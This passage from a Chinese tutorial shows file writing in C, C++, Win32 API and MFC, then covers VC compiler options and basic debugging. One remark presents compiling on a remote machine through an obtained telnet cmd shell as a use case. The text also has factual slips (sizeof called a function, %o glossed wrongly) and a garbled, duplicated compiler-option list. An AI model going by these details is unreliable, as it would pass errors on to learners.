    fprintf(fp, "%s", output);        /* 往文件写入内容 */
    fclose(fp);                       /* 关闭文件 */

    return 0;            /* 退出程序 */
}
```

这个程序虽然简单，却包含了 C 语言拥有的大部分特征。更复杂的程序虽然代码量大，但也都是这样的结构。

首先 `#include <stdio.h>`，是包含库文件 `stdio.h` 到源程序中。

`#include` 是预处理命令，预处理命令还有其它几种，这里的 `include` 称为文件包含命令，其意义是把尖括号内指定的文件包含到本程序中来，成为本程序的一部分。

在本例中，使用了三个库函数：`fopen` 打开文件函数，`fprintf` 文件输出函数，和 `fclose` 关闭文件函数，均在头文件 `stdio.h` 里定义，因此要用 `include` 命令包含 `stdio.h`。

```text
error C2065: 'FILE' : undeclared identifier; cannot find
warning C4013: 'fopen' undefined; assuming extern returning int
warning C4013: 'fprintf' undefined; assuming extern returning int
warning C4013: 'fclose' undefined; assuming extern returning int
```

错误的意思是 `FILE` 未定义标识符不能找到；警告的意思是 `fopen`、`fprintf` 和 `fclose` 等函数没有定义。

如果把 `stdio.h` 文件 `include` 进去，在编译时，编译器会把整个 `stdio.h` 文件内容都自动加到源程序的开头，这样不会报错了。

但我们只使用了其中的 `fopen`、`fprintf` 和 `fclose` 三个函数，还有很多其它 `stdio.h` 中并没有使用到的定义，使我们的程序变得很长。

在 Windows 下，还采用了一种叫 DLL（动态链接库）的方法来加以改进，如果以后有机会讲到 DLL 编程，可以详细地解释。

“/* 头文件 */”，是 C 源程序中的注释。在 C 语言中，`/*` 和 `*/` 用于注释界定，`/*` 和 `*/` 之间的内容被当作注释，可跨行使用。注释的作用主要是便于阅读和理解源代码。接下来的 `int main(){......}` 是程序的主入口函数，任何一个 C 程序都只能有且只有一个 `main` 函数。

如果源程序中没有 `main` 函数，在链接时会报错：`error LNK2001: unresolved external symbol _main`。程序就是最先进入 `main` 中一步步执行。

`FILE *fp;` 定义一个文件指针。C 语言中变量必须先说明后使用，否则会报错：`error C2065: 'fp': undeclared identifier`。

`char output[] = "Hello,C!"` 定义字符数组，字符串以 `\x0`（空字符）结束。随后通过文件操作把该字符串写入文件。

`fp = fopen("text.txt","w");` 用于打开文件。`fopen` 第一个参数是文件名，第二个参数是访问方式；`w` 表示写入，不存在则创建。

- `r`：读取文件，不存在则失败
- `a`：在文件末尾追加，不存在则创建
- `r+`：对已存在文件读写
- `w+`：对新文件读写

`fprintf(fp, "%s", output);` 将内容写入文件。`fprintf` 的参数包括文件指针、格式串和输出内容。

- `%s`：字符串
- `%c`：字符
- `%d`：整型
- `%o`：无符号整型
- `%x`：十六进制数
- `%f`：浮点数

在 C 语言中输出不同类型需声明对应格式。最后 `fclose(fp);` 关闭文件，`return 0` 退出 `main` 函数。

小结：先在 VC 下编译执行程序，将程序输出到文件中，新建文本文件并重命名，然后编译运行查看结果。

随后在 VC 中按提示建立工作区，编译链接并运行后，在同目录下生成 `text.txt`，内容为 `Hello,C!`。


“哦！成功了！”同学们欢呼。随后引出 C++：函数名和类型名习惯小写，C++ 在 C 语言基础上发展而来。

### 2、C++ 语言简单分析

C++ 在 C 的基础上加入面向对象思想，改进了 C 的不足。面向对象把世界中的事物视为对象，对象具有状态和行为，并通过消息交互。

在 C++ 中通过类这种数据结构实现面向对象。类可存储数据并封装操作，通过封装、复用、继承、多态提升代码复用与开发效率。

例如 C 中 `for(int i=0; i<=len; i++)` 的 `++` 为自增运算符，说明 C++ 仍以 C 为基础并进一步扩展。

```cpp
#include <fstream.h>   // C++ 的 fstream.h 头文件
int main(){
    fstream file;
    file.open("testcpp.txt", ios::in|ios::out);
    file << "Hello, C++" << endl;
    file.close();
    return 0;
}
```

该示例体现了 C++ 文件流操作：通过 `fstream` 子类实现文件读写。`//` 为单行注释方式之一，从“//”开始到本行结束，C++ 都把它当成注释内容。

主函数的第一句 `fstream file;` 是定义了 `fstream` 类的一个对象 `file`。类和对象的关系是抽象和具体的关系，就像人类和 `ww0830` 一样的关系。

类是个抽象的概念，不能真正地执行操作，必须定义了类的具体对象，才能由对象去执行所属类拥有的能力。

所以 `fstream` 这个类虽然拥有文件操作的能力，但我们不能让这个类去写文件，只能定义这个类的具体对象——`file` 去操作文件。

有了 `file` 这个对象，就可以操纵 `fstream` 类里面定义的成员函数。`fstream` 类有很多成员函数，其中一个成员函数 `open()`，可以用来打开文件。

```cpp
void open(const char* filename, int mode, int access);
```

- `char* filename`：要求打开的文件
- `int mode`：要求打开文件的方式
- `int access`：打开文件的属性

打开文件的方式 `int mode` 在类 `ios`（是所有流式 I/O 类的基类）中定义，常用的值如下：

- `ios::app`：以追加方式打开文件
- `ios::in`：文件以输入方式打开
- `ios::out`：文件以输出方式打开
- `ios::binary`：二进制方式
- `ios::nocreate`：不建立文件，所以文件不存在时打开失败
- `ios::noreplace`：不覆盖文件
- `ios::trunc`：若文件存在，把文件长度截为 0

打开文件的属性 `int access` 取值是：

- `0`：普通文件，打开访问
- `1`：只读文件
- `2`：隐含文件
- `4`：系统文件

也可以用“或”或者“+”把以上属性连接起来，如 `3` 或 `1|2`，就是以只读和隐含属性打开文件。

无论在 C 函数还是 API 函数中，都可以用按位取或 `|` 把多个属性连接起来。因为这些属性是整数值，二进制位上可区分，例如 `1(0001)`、`2(0010)`、`4(0100)` 等，按位或后仍可分辨原始属性。

同样地，`ios::in`、`ios::out`、`ios::app` 也可组合。比如 `in=1(0001)`，`out=2(0010)`，`app=8(1000)`。`4(0100)` 对应的是 `ios::ate`，表示定位到文件尾。

“哦，bingle！”……通过对象操纵成员函数，只需要在对象名后面加上“.”，再跟上成员函数就可以了。比如 `file.open("testcpp.txt", ios::in|ios::out, 0)`，表示用 `open` 成员函数打开名为 `testcpp.txt` 的普通文件，权限是输入输出。

打开了文件，可以用 `fstream` 类的 `<<` 运算符向文件写入内容。比如 `file << "Hello C++!" << endl;`，先输出 `Hello C++!`，然后输出回车换行。

最后关闭文件，使用 `close()` 成员函数完成。

### 小结：

老师说：新建一个记事本文档，重命名为 `file.cpp`，输入代码后编译运行，生成 `test.txt` 文件，并写入内容 `Hello, C++!`（如图 2）。


“哦！还是成功了！”……类的思想之一是把内部状态和方法封装起来，只留接口（成员函数）供外部调用。

还讨论了 C 与 C++ 输出差异：C 中常用 `%s` 指明字符串类型，而 C++ 中通过 `<<` 与 `endl` 直接输出。

随后引出 C++ 的另一个重要特性——多态性：同样是 `<<`，可根据输出对象类型自动执行不同操作，从而减少程序员工作量。

但本课程中不会大量展开 C++ 类思想，重点仍在 C 语言编程和 Windows API 编程。

### 3、Windows API 编程

API 的英文全称是 Application Programming Interface，即应用程序编程接口；Windows API 指 Windows 系统下的应用程序编程接口。

当 Windows 逐步普及后，开发平台下的应用程序需求增长。若完全靠 C/C++ 从底层实现窗口程序，费时费力，效果也不理想。

Microsoft 在 Windows 系统中提供了 Windows API 作为解决方案。它提供一系列 API 函数，形式类似 C 函数，带输入输出参数并有返回值。程序员可像“积木”一样调用对应 API 来构建功能。

# 主题乐园

API 的上层是千姿百态的应用程序，而 API 的下层就是 Windows 的操作系统核心了。API 函数是构筑 Windows 系统编程的基石，一切在 Windows 下的操作，最终都会映射为 API 函数的调用！

“哦，Windows 下的所有功能都是通过调用 API 函数来完成的吗？”

“是！”老师肯定地回答道。

“会不会有什么 Windows 的应用程序，没有通过 API 函数就能实现它的功能呢？比如刚才的那个 C 程序。”

老师笑道：“呵呵，任何应用层的程序涉及到系统时，最终都要使用 API 来完成功能。那个 C 程序，同样最终调用 API 完成功能；不仅如此，就连我们直接在资源管理器里点右键，选新建文件，最终也是调用 API 实现的。”

“哦！”大家听得很惊奇。

“这是因为一般情况下，微软没有源代码可以让我们改动，我们不能拥有‘自己’的函数来让 Windows 系统去执行。因此任何让 Windows 动作，都只能用 API 函数来实现。”

老师顿了顿，继续说道：“正因为所有的功能都通过调用 API 函数来实现，所以我们才可以使用 API Hook 技术，即改变 API 函数的内容，插入我们自己的代码。如果其他程序使用该 API，就会执行我们加入的功能。”

“哦，有道理。但我们还是想知道，难道我们就不能跳过 Windows API，做任何更底层的开发了吗？”

“嗯，还是可以，比如使用 DDK，开发驱动程序！不过它都已经不是架构在 Windows 系统之上的了；反而，是 Windows 系统要依赖它们，它们比系统还底层。啊啊。”

“哦，明白了。说了这么多，API 编程到底是什么样子的啊？好想看看啊！”

“好！Windows API 随着系统的发展而发展，从过去的 WIN16 API，发展到现在普遍使用的 WIN32 API，以及 64 位系统拥有的 WIN64 API。”

用 Windows API 函数建立文件的例子如下，当然是 WIN32 API 的程序。

```cpp
#include <windows.h>   // 包含 windows.h
int main()
{
    HANDLE hFile;      // 句柄
    DWORD num;         // DWORD = unsigned long

    hFile = CreateFile(
        "test API.txt", GENERIC_WRITE,
        0, NULL,
        OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL,
        NULL);

    WriteFile(
        hFile, "Hello API!",
        sizeof("Hello API!"), &num,
        NULL);         // 在文件中写入 "Hello API!"

    CloseHandle(hFile); // 关闭文件句柄
    return 0;
}
```

解释一下：`#include <windows.h>`，包含 `Windows.h` 头文件，当要使用 Windows API 函数进行编程时，就一定要包含这个头文件。

`HANDLE hFile; DWORD num;` 定义两个变量。`HANDLE` 和 `DWORD` 都是 Windows 的数据类型。`HANDLE` 称为句柄，可以用来指向一种对象；而 `DWORD` 其实就是 `unsigned long`，即无符号长整型。这样定义的 `hFile` 是一个句柄，`num` 是一个整数。

在 Windows API 函数中，可以使用 `CreateFile()` 函数来建立或打开文件。其函数原型是：

```cpp
HANDLE CreateFile(
    LPCTSTR lpFileName,            // 要建立或打开的文件名
    DWORD dwDesiredAccess,         // 对文件所拥有的权限
    DWORD dwShareMode,             // 文件的共享方式
    LPSECURITY_ATTRIBUTES lpSecurityAttributes, // 指向安全属性结构的指针
    DWORD dwCreationDisposition,   // 文件存在与不存在时的操作方式
    DWORD dwFlagsAndAttributes,    // 文件属性和标志
    HANDLE hTemplateFile           // 模板文件句柄，可以为 NULL
);
```

老师强调：“所有的 API 函数，都有 ANSI 实现和 Unicode 实现两种形式，分别是函数名后加 A 和 W。以 `CreateFile` 函数为例，在 `WINBASE.H` 中，有预定义如下。”

```cpp
#ifdef UNICODE
#define CreateFile CreateFileW
#else
#define CreateFile CreateFileA
#endif
```

“这是预定义的表示法。`#ifdef UNICODE` 即在 UNICODE 环境下时，`#define CreateFile CreateFileW` —— `CreateFile` 函数等于是 `CreateFileW` 函数；

`#else`，否则，就是在 ANSI 的环境下时，`#define CreateFile CreateFileA` —— `CreateFile` 函数等于是 `CreateFileA` 函数。”

“就是说，在 Windows 下，其实是没有 `CreateFile` 这个函数的实现的，只有 `CreateFileA` 和 `CreateFileW` 这两个函数的实现。当 `CreateFile` 的参数是 ANSI 码时，系统自动使用 `CreateFileA` 来执行；如果参数是 Unicode 码，系统则使用 `CreateFileW` 来执行。”

“而 `CreateFileA` 和 `CreateFileW` 在系统中，其实也只具体实现了一个。在 Win98 时，实现的是 `CreateFileA` 函数，`CreateFileW` 函数只是将所带参数转变为 ANSI 后，调用 `CreateFileA` 函数来完成功能。”

“在进入 Win2000 后，为了国际化的使用，微软力推 Unicode。所以在 Win2000 以上的系统中，都是具体实现 Unicode 函数。这里就是实现了 `CreateFileW`，而 `CreateFileA` 只是将参数转换为 Unicode 后，调用 `CreateFileW` 函数。”

“具体说，`CreateFileA` 函数的反汇编就是：”

```asm
.text:77E5A837  HANDLE __stdcall CreateFileA(LPCSTR lpFileName,
.text:77E5A837      DWORD dwDesiredAccess,
.text:77E5A837      DWORD dwShareMode,
.text:77E5A837      LPSECURITY_ATTRIBUTES lpSecurityAttributes,
.text:77E5A837      DWORD dwCreationDisposition,
.text:77E5A837      DWORD dwFlagsAndAttributes,
.text:77E5A837      HANDLE hTemplateFile)
; ...
; 参数转码后转调 CreateFileW
.text:77E5A837  push ebp
.text:77E5A838  mov  ebp, esp
.text:77E5A83A  push [ebp+lpFileName]
.text:77E5A83D  call sub_77E5A7FC
...
.text:77E5A85F  call CreateFileW
```

“啊，啊，这个……这个……”，小菜们往后一跳，手脚狂摆，道：“我们连 C 语言都才学不久，没有理由会认识汇编吧。”

“呵呵，代码的主要含义就是把参数转变成 Unicode 形式，然后直接调用 `CreateFileW` 函数而已，和前面说的是一致的。”

“哦！一个小小的 API 函数，也有这么大学问啊！”……“还没完呢。API 函数的参数更有看头，我们一个一个地稍加解释！”

要建立或打开的文件名 `lpFileName`：该字符串用 ANSI 形式表示时，最长限制是 `MAX_PATH`（一般 260）；若使用 Unicode 可更长，但路径最开始需加上 `\\?\`。

打开文件所需拥有的权限属性 `dwDesiredAccess`：属性值是精心构造的整数，通过按位取或（`|`）连接多个属性，系统即可分辨设置。

```c
#define FILE_READ_DATA        (0x0001)
#define FILE_WRITE_DATA       (0x0002)
#define FILE_APPEND_DATA      (0x0004)
#define FILE_EXECUTE          (0x0020)
#define FILE_READ_ATTRIBUTES  (0x0080)
#define FILE_WRITE_ATTRIBUTES (0x0100)
#define FILE_ALL_ACCESS (STANDARD_RIGHTS_REQUIRED|SYNCHRONIZE|0x3FF)
```

文件的共享模式 `dwShareMode`：指明在使用该文件时，其他程序对该文件的操作权限，可有如下取值。

```c
#define FILE_SHARE_READ   0x00000001
#define FILE_SHARE_WRITE  0x00000002
#define FILE_SHARE_DELETE 0x00000004
```

共享删除：如果为 0，则该文件在被关闭前，不可被其他程序共享使用。指向 `SECURITY_ATTRIBUTES` 结构的指针 `lpSecurityAttributes`，指明返回句柄是否可被子进程继承（为 `NULL` 则不可继承）。

文件存在与不存在时的操作方式 `dwCreationDisposition`：

```c
#define CREATE_NEW      // 新建文件；若已存在则失败
#define CREATE_ALWAYS   // 新建文件；若已存在则改写
#define OPEN_EXISTING   // 打开已存在文件
#define OPEN_ALWAYS     // 存在则打开，不存在则新建
```

因为在这里，属性 1、2（新建成功/失败）互斥，不能共存，所以用 3 表示另一种属性。一般属性值不会这样。

文件属性和标志 `dwFlagsAndAttributes`：

```c
#define FILE_ATTRIBUTE_READONLY   0x00000001
#define FILE_ATTRIBUTE_HIDDEN     0x00000002
#define FILE_ATTRIBUTE_SYSTEM     0x00000004
#define FILE_ATTRIBUTE_DIRECTORY  0x00000010
#define FILE_ATTRIBUTE_ARCHIVE    0x00000020
#define FILE_ATTRIBUTE_ENCRYPTED  0x00000040
#define FILE_ATTRIBUTE_NORMAL     0x00000080
#define FILE_ATTRIBUTE_TEMPORARY  0x00000100
```

模板文件句柄 `hTemplateFile`：提供文件属性和扩展属性给正在创建的文件；如果为 `NULL`，表示没有模板文件。返回值：函数成功则返回创建或打开文件的句柄。

课间插播采访：问“为什么讲解得这么详细呢？”答：为便于初学者理解和复习，也为了改进以往写法，尽量把重要内容讲细。

在我们的程序中，执行如下语句来建立文件句柄：

```c
hFile = CreateFile(
    _T("testAPI.txt"), GENERIC_WRITE,
    0, NULL,
    OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL,
    NULL);
```

即建立一个名为 `testAPI.txt` 的普通文件；`OPEN_ALWAYS` 表明若文件已存在则打开，若不存在则新建。

做第一步——语法分析时，会自动识别和去掉回车、空格及 Tab 制表等字符。所以在参数很长时，可以通过适当的回车换行来便于阅读。

建立了文件句柄后，可以使用 `WriteFile` 函数来往文件中写入内容。`WriteFile` 函数原型如下。

```cpp
BOOL WriteFile(
  HANDLE hFile,
  LPCVOID lpBuffer,
  DWORD nNumberOfBytesToWrite,
  LPDWORD lpNumberOfBytesWritten,
  LPOVERLAPPED lpOverlapped
);
```

具体来说，我们程序的实现是：

```cpp
WriteFile(
  hFile, "Hello API!",
  sizeof("Hello API!"), &num,
  NULL
);
```

`sizeof()` 是个特殊的函数，它不保存 EIP，不压堆栈，直接返回参数对象的长度。`WriteFile` 函数执行后，我们往文件中写入了 `"Hello API!"` 这几个字。最后，使用 `CloseHandle` API 函数关闭文件句柄，`CloseHandle(hFile)`。

### 小结

老师说道：“我们来验证一下，新建一个记事本文档，重命名为 `API.cpp`。然后双击打开，在 VC 中输入上面的代码，再 Ctrl+F7 编译，Ctrl+F5 链接运行。成功！生成了名为 `testAPI.txt` 的文件，并在里面输入了内容‘Hello API!’，如图3所示。”


老师说道：“大家可以看到，API 函数的使用方式和 C 语言差不多，因为 API 本身就是用 C 写的。我们在 Windows 系统下编程时，可以用标准 C 语言和 C++ 语言编程，也可以使用微软提供的 API 函数接口编程，但更多时候是 C 语言函数和 API 函数的混合使用。之所以混合使用，更多是因为没有分清 C 函数和 API 函数之间的区别。”

“标准 C 语言或 C++ 语言，其函数名称多是小写字母，如 `fopen`、`fprintf`、`fclose`、`open` 等；变量类型也常用小写。Windows API 函数则多为首字母大写的大小写混用，如 `CreateFile`、`WriteFile`；并且基础类型常用全大写字母的数据类型，如 `HANDLE`、`DWORD` 等。”

| 类型名 | 含义 |
|---|---|
| int | 整型 |
| bool | 布尔型 |
| float | 浮点型 |
| char | 字符型 |

“我们说过 `DWORD` 其实就是 `unsigned long`。Windows 的数据类型其实都是这样，是对标准 C 语言数据类型的组合，类似常用的还有：”

```cpp
typedef int            BOOL;
typedef unsigned char  BYTE;
typedef unsigned short WORD;
typedef int            INT;
typedef unsigned int   UINT;
typedef unsigned int   *PUINT;
```

同学们问道：“哦，为什么要重新命名一次啊，岂不多此一举？”老师回答：“微软觉得 C 语言全小写命名规则不利于阅读，所以提出了一套 API 命名规范——函数名大小写混写，数据类型全大写。后来为兼容标准 C 代码，并未淘汰小写命名，于是形成两种方式并存。”

“所以，当我们习惯的 `int`、`bool` 等定义变更时，其实采用的是 C 语言编程方式；如果是纯 Windows API 编程，应该采用 `INT`、`BOOL` 来定义——微软是老大嘛。”老师最后总结：“而在 Windows 下，安装了 VC 后，还有一种编程方式——MFC 编程。”

## 4、MFC 简介

MFC 的全称是 Microsoft Foundation Class，即微软基础类库。它是微软为 Windows 程序员提供的一个面向对象的 Windows 编程接口（Windows API 函数接口不是面向对象的）。MFC 大大简化了 Windows 平台编程工作，并将大量经验封装进库中。MFC 本身提供了标准化结构，节省开发时间，同时也提供大量代码与功能支持。

老师说道：“用 MFC 的优势是开发具有标准 Windows 界面的应用程序，就像窗口、对话框等界面开发并不需要一开始就写大量底层 API，所以这里只举一个用 MFC 实现创建文件的例子。”

### 第一步，新建对话框工程

点击 VC“文件”菜单下的“新建”，在弹出的新建对话框“工程”栏中选中 MFC AppWizard，在右边“工程名称”中输入“testMFC”，并选好工程存储位置，如图4所示。


点击“确定”按钮后，在 MFC 向导1中选择“对话框”，然后点击“完成”，VC 就会自动为我们生成基本的对话框框架，如图5所示。


### 第二步，添加“确定”按钮响应代码

双击 VC 资源管理器中那个对话框的“确定”按钮，弹出“添加成员函数”对话框，如图6所示。


点“OK”后 VC 会自动生成和定位到 `void CTestMFCDlg::OnOK()` 函数中。我们加入如下代码。

```cpp
CFile file;
file.Open("testMFC.txt", CFile::modeCreate|CFile::modeWrite, NULL);
file.Write("Hello MFC!", sizeof("Hello MFC!"));
file.Close();
```

然后去掉 VC 自动生成的 `CDialog::OnOK();` 语句，如图7。


### 第三步，运行和测试

添加代码完成后，我们按 Ctrl+F5 执行，就会弹出个 Windows 界面的标准对话框，如图8。


我们点击“确定”按钮，就会在本目录下生成一个名为“testMFC.txt”的文件，里面的内容为“Hello MFC!”；点击“取消”按钮，对话框结束退出。

可以看到，用 MFC 编写的程序易学易用，并立即支持所有 Windows 的标准特性。

我们自己的那段代码，是点击对话框的“确定”按钮后所要响应执行的东西。

```cpp
CFile file;
file.Open("testMFC.txt", CFile::modeCreate|CFile::modeWrite, NULL);
file.Write("Hello MFC!", sizeof("Hello MFC!"));
file.Close();
```

### 小结

老师说道：“MFC 也有独特的命名规范。它的类以字母 C 开头，如刚才的 `CFile` 类；而且全局 MFC 的函数名都冠以 Afx 为前缀，比如 `AfxMessageBox()`。并且，MFC 要在机器上安装了 VC 之后才有。”

“讲了这么多，可以看出，在 Windows 环境下的程序设计层次图9所示。”


> “我们应用程序的编写，既可以基于 API 的接口，也可以基于 MFC 和 VCL 其他的一些类库。”

“API 函数分为用户态 API 和核心态 API，而 MFC 是对 API 函数的封装，加入了面向对象的思想。”

“另外，如果安装了 C++ Builder，可以采用 C++ Builder 提供的 VCL 来编程，VCL 也是对 API 封装，也是面向对象的类库。”

“嗯，原来这样啊！”

“这些全是 Windows 惹的祸，在 *nix 中，就没有这个问题，编程踏踏实实地使用标准的 C/C++ 语言就可以了。”

“这么方便？那支持 *nix，开源无敌！”

“不过既然在 Windows 下，那么我们还是探讨如何使用 VC 来进行程序设计吧。”

## 5. VC 是什么

# 主题乐园

“对，”老师说道，“但大家的双眼都被 VC 的界面屏蔽住了，VC 并不是那么简单。我们再 look inside……就更深入一点。VC 本身是很多复杂工具的集合，包括编译器、IDE 界面和 MFC 编程接口。”

### 5.1 编译器

VC 首先最重要的功能，就是编译 C/C++ 程序。编译程序完成从源程序到目标程序的翻译工作，是一个复杂的整体过程。一般编译过程划分成词法分析、语法分析、语义分析、中间代码生成、代码优化和目标代码生成六个阶段。

不同的语言有不同的编译器，比如 C 语言有 TC、LCC 编译器；C++ 有 BCC；汇编有 TASM 编译器等。对同一种语言，也有很多种编译器，比如对 C/C++，VC 可以编译，C++Builder 也可以编译。

在 VC 中，和编译链接相关的包括预处理器—编译器—汇编器—链接器。预处理器会处理相关的预处理指令，一般是以“#”开头的指令，如：`#include "xx.h"`、`#define` 等。编译器把对应的 `*.cpp` 翻译成 `*.s` 文件（汇编语言）；汇编器则处理 `*.s` 生成对应的 `*.o` 文件（obj 目标文件）；最后链接器把所有的 `*.o` 文件链接成一个可执行文件（`*.exe`）。

“在前面的程序中，都是进入 VC 图形化界面中用 Ctrl+F7 来编译程序。其实，VC 单独提供了编译器工具。我们可以根本不进入 VC 的图形化界面，在 DOS 命令行下编译程序，把一个 C 或 CPP 文件编译链接成 exe 文件。”

“哇！？在命令行下编译？”

“是的，这是 VC 工具集合中的第一样工具——编译器。安装在 VC 安装目录的 `VC98\Bin` 下，`VC98\Bin` 下有很多 exe 文件，包括刚才提到的预处理器、编译器、汇编器、链接器等。除此之外，还有一个 `CL.exe`，可以完成从源文件编译、链接生成 EXE 文件的全过程。”


“我们运行 file.exe，就会生成 test.txt，其中内容为 ‘Hello C!’，如图11。”

“哦！果然编译成功！”

“除了像这样编译外，CL 还可以带很多参数，以实现不同的编译选项。在 DOS 下输入 `CL -?` 就可以看见详细的帮助信息。参数的解释如下：”

```text
获取 C/C++ 编译器选项

---优化---
/O1    最小化空间
/Op[-] 改善浮点数一致性
/O2    最大化速度
/Os    优选代码空间
/Oa    假设没有别名
/Ot    优选代码速度
/Ob<n> 内联展开（默认 n=0）
/Ow    假设交叉函数别名
/Od    禁用优化（默认值）
/Ox    最大化选项（/Ogityb2 /Gs）
/Og    启用全局优化
/Oy[-] 启用框架指针省略
/Oi    启用内部函数

---代码生成---
/G3    为 80386 进行优化
/GH    启用 _pexit 函数调用
/G4    为 80486 进行优化
/GR[-] 启用 C++ RTTI
/G5    为 Pentium 进行优化
/GX[-] 启用 C++ EH（与 /EHsc 相同）
/G6    为 PPro、P-II、P-III 进行优化
/EHs   启用 C++ EH（无 SEH 异常）
/GB    为混合模型进行优化（默认）
/EHa   启用 C++ EH（w/ SEH 异常）
/Gd    __cdecl 调用约定
/EHc   外部 "C"：默认为 nothrow
/Gz    __stdcall 调用约定
/Gm[-] 启用最小重新生成
/GA    为 Windows 应用程序进行优化
/GL[-] 启用链接时代码生成
/Gf    启用字符串池
/QIfdiv[-] 启用 Pentium FDIV 修复
/GF    启用只读字符串池
/QIfist[-] 使用 FIST 而不是 ftol()
/GZ    启用堆栈检查（/RTCs）
/RTC1  启用快速检查（/RTCsu）
/Ge    对所有函数强制堆栈检查
```


“嗯！那我们快试试吧！”

“别慌，编译之前要先设置好 INCLUDE、LIB 等路径。”老师说道，“在 `\VC98\Bin` 目录下，有一个名为 `vcvars32.bat` 的批处理文件，它可以帮我们自动设置好这些路径。我们先在 DOS 控制台下运行它，如图10。”

“设置好后，我们在 C 盘下运行 `CL file.c`，其中 `file.c` 就是我们前面编写的输出文件的程序。就会显示一堆版权信息，最后提示生成了 `file.obj` 和 `file.exe`。”

```text
/RTCc  将较小的类型检查
/G5      在调度校检查调用
/Gs[num]  控制堆栈检查调用
/RTCs    堆栈运行时检查
/GS      启用安全检查
/RTCu    未初始化的本地用法检查
/Gh      启用 _penter 函数调用
/clr[:noAssembly]  以公共语言运行时库编译 noAssembly（不产生程序集）

输出文件
/Fa[file]  命名程序集列表文件
/Fo[file]  命名对象文件
/FAsc[file] 配置程序集列表
/Fp[file]  命名预编译头文件
/Fe[file]  命名可执行文件
/Fd[file]  命名 PDB 文件
/FR[file]  命名浏览器文件
/Fm[file]  命名映射文件
/Fo<file>  命名扩展 SBR 文件

预处理器
/AI<dir>   添加到程序集搜索路径
/FI<file>  将指定的代码包含到文件
/FU<file>  强制使用程序集模块
/FI<file>  命名强制包含文件
/C         不抽取注释
/D<name>[=text]  定义宏
/U         移除所有预定义宏
/E         预处理到 stdout
/EP        预处理到 stdout，移除 #line
/X         忽略标准位置
/P         预处理到文件

语言
/Zi        启用调试信息
/ZI        编辑并继续调试信息
/Z7        启用旧式调试信息
/Zs        只进行语法检查
/Za        禁用扩展
/Ze        启用扩展（默认）
/Zc:wchar_t  wchar_t 作为本机类型
/noBool    禁用 bool 关键字

杂项
@<file>    选项响应文件
/w         关闭所有警告
/W0-W4     设置警告级别
/WX        将警告视为错误
/showIncludes 显示包含文件名
```

```text
/WL         启用单词诊断
/Yc<source_file>   对文件编译为 PCH 文件
/Yu<file>   对文件编译为 CPP
/Yd         将调试信息放在每个 OBJ 中
/TC         将所有文件编译为 C
/TP         将所有文件编译为 CPP
/Yl[sym]    为调试插入 PCH 引用
/Yu[<file>] 使用 PCH 文件
/YX         使用所有默认 PCH
/Y-         禁用所有 PCH 选项
/vd<n>      禁用虚函数
/Zm<n>      最大内存分配（默认为 %）
/wd<n>      禁告警 n，视为常规

链接
/MD    与 MSVCRT.LIB 链接
/MDd   与 MSVCRTD.LIB 调试库链接
/ML    与 LIBC.LIB 链接
/MLd   与 LIBCD.LIB 调试库链接
/MT    与 LIBCMT.LIB 链接
/MTd   与 LIBCMTD.LIB 调试库链接
/LD    创建 DLL
/F<num> 设置堆栈大小
/LDd   创建 DLL 调试版
/link  链接器选项和库
```

### 小结

“我们单独使用 VC 的编译器，在 DOS 命令行下编译程序，有什么优势呢？”同学们边看帮助信息边问道。

“最大的好处是可以写一些脚本，来定时自动编译程序和链接程序。这样程序员可以在白天编程，晚上计算机会自动编译链接程序，这在工程很大时非常实用。”老师回答道，“二是当远程 telnet 得到对方 cmd shell 时，只能执行 DOS 命令，我们能且只能使用 C 程序来实现编译和链接源文件了！”

“哦，对啊！”大家恍然大悟，连连点头。

“所以，基于这两点，相比图形界面的程序，DOS 命令行的程序更为高手们所喜爱。”

### 5.2 IDE 界面

VC 的第二个主要功能是提供图形化的编程界面。

首先，VC 是一个很好的编辑器。在 VC 中对 C 和 C++ 文件进行编辑时，它可以自动识别语言的关键字并标出不同的显示。

选择菜单上的“文件”→“打开”，弹出打开文件对话框如图12所示。

可以看到，VC 不仅可以打开 txt 文件、C/C++ 文件，也可以打开二进制文件并加以修改。VC 的编辑功能不亚于任何一款文字处理程序。

其次，在开发中，VC 可以智能地把文件按物理位置和逻辑功能加以组织，包括类视图、资源视图和文件视图，如图13，大大方便程序员对工程的开发。

第三，方便设置编译和链接的参数，方便使用。


```c
#include <stdio.h>
int main() {
    FILE *fp;
    char output[] = "Hello,C!";
    printf("0x%x\n", fp);
    fp = fopen("text.txt", "w");
    printf("0x%x\n", fp);
    fprintf(fp, "%s", output);
    fclose(fp);
    return 0;
}
```


编译程序对初学者很麻烦，集成进去，只用点几个菜单就可以了，方便入门的初学者。要修改设置，选择【工程】→【设置】→link 面板下，可以看到诸多的选项，如图14。而那些选项的意义，就在刚才的编译器一节中有详细的列表。

运行这个带有打印调试信息的程序，结果如图16所示。


### 5.3 MFC 编程接口

VC 除了编译器和集成文件编辑器外，最大的特征是提供了 MFC 编程接口，这是和一般 C/C++ 编译器最大的不同之处。MFC 是微软基础类库，为方便程序员开发 Windows 程序而提供，采用面向对象思想，本身用 C++ 语言完成。


安装 VC 后，会在 `VC98\MFC\Include` 和 `VC98\MFC\SRC` 下出现 MFC 的头文件和源代码，如图15。这就可以使用 MFC 进行开发了。

## 6 在 VC 中进行调试

编写程序，尤其是编写较复杂的程序时，一般都不会一次性编写成功。除了语法等问题外，还会有逻辑问题。这个时候就要使用调试手段来解决。“程序不是写出来的，是调出来的。”

### 6.1 VC 中调试方法简介

最简单和原始的调试方法，是在程序中嵌入打印语句，将关注变量值打印出来。例如在 C 语言例子中加入 `printf("0x%x", fp);` 打印文件指针值，判断其是否有效。

可以看到，在打开文件之前，指针 `fp` 的值为 `0xCCCCCCCC`，这是非法值；调用 `fopen` 后，`fp` 变为有效地址，说明可以正常写入。VC 调试版对不同区域内存会用不同字节模式填充（如 `0xCC`、`0xCD`、`0xDD`），便于发现问题。

这种打印方法在需要快速定位问题时很有用，例如竞赛或联调场景。也可以借助单步调试与 watch 观察变量变化。程序编译后按 F10 进入调试状态，继续按 F10 可逐句执行，并在 watch 中查看 `fp` 等变量值。


“哦！”小菜们点点头。老师进一步解释道，编程实现算法时，编码只是基础，关键在于构造算法；并以语音识别、图像识别、网络编程等说明算法发展的重要性。

### 6.2 上梯子——调试

提出问题：从山底到山顶共 11 个梯子，每次可上 1 格或 2 格，问共有多少种到达方式。小菜一时没有思路。

老师说明：在计算机科学中，解决问题的思路称为算法。很多大师即使不写具体程序，也通过算法研究推动了学科发展。

